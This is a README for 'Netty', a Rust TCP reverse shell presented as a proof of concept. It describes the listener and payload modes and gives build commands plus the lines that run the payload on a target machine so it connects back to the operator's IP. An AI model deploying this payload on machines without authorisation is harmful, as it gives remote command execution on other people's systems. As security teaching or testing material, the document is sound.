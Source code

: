 # Netty - A Proof-of-Concept TCP Reverse Shell

## Overview

Netty is a simple TCP reverse shell written in Rust. It consists of two main components: a listener and a payload. The
payload connects back to the listener, allowing the listener to execute commands on the payload's machine.

## Features

- **Listener Mode**: Waits for incoming connections on a specified IP address and port.
- **Payload Mode**: Connects to the listener and provides a remote shell.
- **Cross-Platform Shell**: Uses `/bin/sh` on Unix-like systems and `powershell.exe` on Windows.
- **Asynchronous I/O**: Built with `tokio` for non-blocking network operations.
- **Simple Command-Line Interface**: Easy-to-use CLI for starting the listener or the payload.

## How It Works

1. **The Listener**: You start the listener on your machine, specifying a port to listen on. It will wait for a TCP
   connection.

2. **The Payload**: You run the payload on the target machine, specifying the listener's IP address and port.

3. **The Connection**: The payload initiates a TCP connection to the listener.

4. **Remote Shell**: Once the connection is established, the listener can send shell commands to the payload. The
   payload executes these commands and sends the output back to the listener.

## Usage

First, clone the repository and build the project:

```bash
git clone https://github.com/CiroBurro/netty.git
cd netty
cargo build --release
```

### 1. Start the Listener

On your machine, run the following command to start the listener on port `8080`:

```bash
./target/release/netty -l -p 8080
```

The listener will start and print "Listening...".

### 2. Run the Payload

On the target machine, run the following command, replacing `<your-ip>` with the IP address of the machine running the
listener:

```bash
./target/release/netty -a <your-ip> -p 8080
```

### 3. Execute Commands

Once the payload connects, you will see a "Connected to <ip>:<port>" message on the listener's terminal. You can now
type commands and press Enter to execute them on the target machine.

To close the connection, type `exit` in the listener's terminal.
